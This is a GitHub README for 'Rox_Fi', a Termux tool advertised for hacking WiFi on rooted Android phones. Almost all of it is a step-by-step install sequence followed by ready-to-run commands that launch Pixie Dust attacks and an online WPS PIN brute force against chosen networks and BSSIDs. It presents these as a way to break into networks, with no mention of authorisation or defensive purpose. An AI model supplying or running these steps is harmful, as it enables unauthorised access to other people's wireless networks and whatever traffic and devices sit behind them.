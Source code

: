 ## Rox_Fi

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://d.top4top.io/p_2169ndpcg0.jpg"></p>

### Installation :

```bash

 apt update && apt upgrade

 pkg install -y root-repo

 pkg install -y git tsu python wpa-supplicant pixiewps iw

 git clone https://github.com/shuvo880/Roxfi

 cd Roxfi

 chmod +x roxfi.py

 sudo python roxfi.py --help

```

#### Example : `sudo python roxfi.py -i wlan0 -K`

#### Note: 

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python roxfi.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python roxfi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python roxfi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


